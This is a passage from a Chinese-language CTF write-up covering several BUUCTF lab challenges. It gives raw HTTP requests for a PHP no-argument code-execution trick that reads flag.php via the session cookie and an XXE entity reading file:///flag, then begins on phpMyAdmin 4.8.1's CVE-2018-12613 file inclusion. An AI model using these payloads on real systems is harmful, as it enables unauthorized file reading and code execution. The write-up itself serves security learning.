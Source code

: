 payload

```http
GET /?exp=show_source(session_id(session_start())); HTTP/1.1
Host: c3963d62-08d4-4ff4-823b-f03368a8fa37.node5.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://c3963d62-08d4-4ff4-823b-f03368a8fa37.node5.buuoj.cn/?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
Connection: close
Cookie: PHPSESSID=flag.php
Upgrade-Insecure-Requests: 1
```

## [NCTF2019]Fake XML cookbook

抓包发现是xxe漏洞

直接引入外部实体读取flag

```http
POST /doLogin.php HTTP/1.1
Host: e304fe32-9df6-4e0c-aecd-2ac085749353.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/xml;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 120
Origin: http://e304fe32-9df6-4e0c-aecd-2ac085749353.node5.buuoj.cn:81
Connection: close
Referer: http://e304fe32-9df6-4e0c-aecd-2ac085749353.node5.buuoj.cn:81/

<!DOCTYPE test [
<!ENTITY test SYSTEM 'file:///flag'>]>
<user><username>&test;</username><password>1</password></user>
```

## [GWCTF 2019]我有一个数据库

爆破出有phpmyadmin目录

![image-20240217215624266](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240217215624266.png)

当前版本是4.8.1的 CVE-2018-12613这个漏洞可以利用

index.php中的代码

```php
// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}

```
